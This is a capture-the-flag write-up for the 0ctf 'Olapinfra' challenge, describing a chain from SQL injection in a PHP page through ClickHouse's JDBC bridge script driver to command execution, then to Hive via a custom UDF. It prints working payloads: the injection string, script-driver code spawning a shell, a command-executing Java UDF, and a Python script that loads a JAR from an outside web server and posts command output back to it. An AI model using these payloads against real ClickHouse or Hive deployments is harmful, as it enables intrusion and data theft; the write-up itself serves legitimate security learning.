 <style>
    .caption {
        display:block;
        float:right;
    }
</style>


# Olapinfra writeup
## Summary
Part 1: SQL injection on `web` => Clickhouse `jdbc` script driver => RCE<br>
Part 2: Create exec function in `hive` => RCE<br>

## Overview
`web`: PHP web server that executes a `SELECT` db query against `clickhouse`. We control part of the query. <br>
`clickhouse`: Essentially just a DBMS. Set up to query `hive` for the `u_data` table. Not connected to the outside network. <br>
`hive`: A data warehouse that stores the `u_data` table. Uses `hadoop` to actually store said data. Not connected to the outside network. <br>
`hadoop`: Distributed storage that both `clickhouse` and `hive` rely on. Not connected to the outside network. <br>

## Process (part 1)
See SQL injection on `web` against `clickhouse`, spend a couple hours understanding how the whole chall is tied together.

```php
$statement = $db->select('SELECT * FROM u_data WHERE ' . $_GET['query'] . ' LIMIT 10');
```
<span class="caption">_the SQL vuln in `web`_</span>

So, `clickhouse` has its own SQL language, with a few extra functions defined. There were some interesting ones like `url()`, but the most interesting one is `jdbc-bridge`, used in the `Dockerfile` for the container, especially because ClickHouse has a page on security, so an RCE vuln against default ClickHouse would amount to a 0-day, which'd be unlikely. <br>

```Dockerfile
FROM clickhouse/jdbc-bridge:2.1.0
```
<span class="caption">_non-default stuff is usually kinda sus_</span>

![Bridge Diagram](https://user-images.githubusercontent.com/4270380/103492828-a06d1200-4e68-11eb-9287-ef830f575d3e.png)
<span class="caption">_Diagram on the JDBC bridge Github page_</span>

Turns out, the `script` driver accepts some weird mix between `javascript` and `java`, and with this payload, we get part 1:

```python
sqlinject=f"""
1=1 UNION ALL SELECT results, results, results, results FROM jdbc('script', `{script}`)
""".strip()
    
r = requests.get(f"{CHALL_URL}", params={
    "query": sqlinject
})
```

The script:

```javascript
var p = new java.lang.ProcessBuilder["(java.lang.String[])"](["/bin/sh", "-c", "/readflag"]).start();
var builder = new java.lang.StringBuilder();
var line = null;
while ((line = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream())).readLine()) != null) {{
    builder.append(line);
}}
var res = builder.toString();
```

## Process (part 2)
With RCE on `clickhouse`, we can start by assuming that we can make arbitrary connections to `hive` and `hadoop` (i.e., change the docker-compose network for `hive` to `outer-network`). `hive` has its own extended SQL language, called HiveQL, which also defines functions not found in standard SQL (User-Defined Functions, or UDFs).<br>

There's a rudimentary blacklist against what UDFs you can use, defined in `hive-site.xml`, which prevents easy ways of executing arbitrary Java code. Hive does allow creating functions from JARs.

```xml
    <property>
        <name>hive.server2.builtin.udf.blacklist</name>
        <value>reflect,reflect2,java_method</value>
    </property>
```
<span class="caption">_XML definition for UDF blacklist_</span><br>

```sql
CREATE FUNCTION [db_name.]function_name AS class_name
  [USING JAR|FILE|ARCHIVE 'file_uri' [, JAR|FILE|ARCHIVE 'file_uri'] ];
```
<span class="caption">_file\_uri??_</span>

So, we followed instructions [here](https://docs.cloudera.com/data-warehouse/cloud/querying-data/topics/hive_create_udf_class.html), exposed the JAR on a web server, sent a query to `hive` to create the function, and then executed it. This gave us RCE on part 2, so the final bit to complete was actually doing everything from part 1's RCE on `clickhouse`.<br>

<details closed>
    <summary>Source for JAR code</summary>

        package com.example;

        import org.apache.hadoop.hive.ql.exec.UDFArgumentException;
        import org.apache.hadoop.hive.ql.metadata.HiveException;
        import org.apache.hadoop.hive.ql.udf.generic.GenericUDF;
        import org.apache.hadoop.hive.serde2.objectinspector.ObjectInspector;
        import org.apache.hadoop.hive.serde2.objectinspector.primitive.PrimitiveObjectInspectorFactory;
        import org.apache.hadoop.io.Text;

        import avro.shaded.com.google.common.collect.ImmutableBiMap.Builder;

        import java.lang.ProcessBuilder;

        public class Execute extends GenericUDF {
        private final Text output = new Text();

        @Override
        public ObjectInspector initialize(ObjectInspector[] arguments) throws UDFArgumentException {
            checkArgsSize(arguments, 1, 1);
            checkArgPrimitive(arguments, 0);
            ObjectInspector outputOI = PrimitiveObjectInspectorFactory.writableStringObjectInspector;
            return outputOI;
        }

        @Override
        public Object evaluate(DeferredObject[] arguments) throws HiveException {
            String cmd = arguments[0].get().toString();
            try {
            ProcessBuilder pb = new ProcessBuilder(cmd.split(" "));
            Process p = pb.start();
            p.waitFor();
            String result = "";
            StringBuilder builder = new java.lang.StringBuilder();
            String line = null;
            while ((line = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream())).readLine()) != null) {
                builder.append(line);
            }
            String res = builder.toString();
            output.set(res);
            } catch (Exception e) {
            output.set(e.toString());
            }
            return output;
        }

        @Override
        public String getDisplayString(String[] children) {
            return getStandardDisplayString("TYPEOF", children, ",");
        }
        }
</details>

<details closed>
    <summary>Getting RCE on Hive</summary>

    from pyhive import hive
    import socket

    domain = "web-server-url"
    url = f"https://{domain}"
    url = f"{url}/demo/target/demo-1.0-SNAPSHOT.jar"
    con=hive.Connection(host="localhost",port=10000,username="default")
    cursor = con.cursor()
    try:
        stmt = f'create function exec as "com.example.Execute" using jar "{url}"'
        cursor.execute(stmt)
    except:
        pass # already exists
    stmt = f'select exec("/readflag")'
    cursor.execute(stmt)
    res = (cursor.fetchall())
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((domain, 80))
    s.sendall(f"""POST / HTTP/1.1
    Content-Type: application/json
    Content-Length: {len(res[0][0])}

    {res[0][0]}
    """)
</details>

<br>

So, we converted the above script to a binary (`PyInstaller`), sent it over the RCE vector, together with the JAR and an HTTP server, had `hive` fetch the function JAR from `clickhouse`, and got RCE on part 2.<br>

`0ctf{the_world_is_chaos_and_so_do_this_challenge}`<br>

(Btw, because everything but `web` is on the inner network, they can't download anything publicly accessible, and because the SQL injection vector is in a query param, we can only send about 7kB of data per connection. The binaries alone were 3MB...)

## Sources:
- https://github.com/ClickHouse/clickhouse-jdbc-bridge (ClickHouse JDBC bridge)
- https://cwiki.apache.org/confluence/display/Hive/ (Hive docs)
- https://cwiki.apache.org/confluence/display/Hive/LanguageManual+DDL#:~:text=Permanent+Functions (Hive docs for creating UDFs)